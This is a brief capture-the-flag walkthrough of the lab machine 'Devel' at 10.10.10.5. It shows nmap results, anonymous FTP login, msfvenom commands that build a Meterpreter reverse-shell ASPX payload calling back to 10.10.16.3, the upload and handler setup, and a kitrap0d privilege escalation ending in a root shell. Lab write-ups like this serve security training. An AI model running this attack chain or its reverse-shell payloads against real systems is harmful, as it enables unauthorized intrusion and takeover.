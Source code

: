 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Devel
# 20/3/2023
10.10.10.5

----------------------------------------------------
# nmap
----------------------------------------------------
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5



└─$ ftp 10.10.10.5    
anonymous

```
----------------------------------------------------
# exploitation
----------------------------------------------------
```
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=6969 -f aspx -o exploit.aspx -a x86
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f aspx > devel.aspx


anonymous
put exploit.aspx
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run -j
http://10.10.10.5/exploit.aspx
we got a shell
```
----------------------------------------------------
# exploitation
----------------------------------------------------
```
meterpreter > cd Windows\\Temp\\
use multi/recon/local_exploit_suggester
run
use exploit/windows/local/ms10_015_kitrap0d
run 
we got root
```
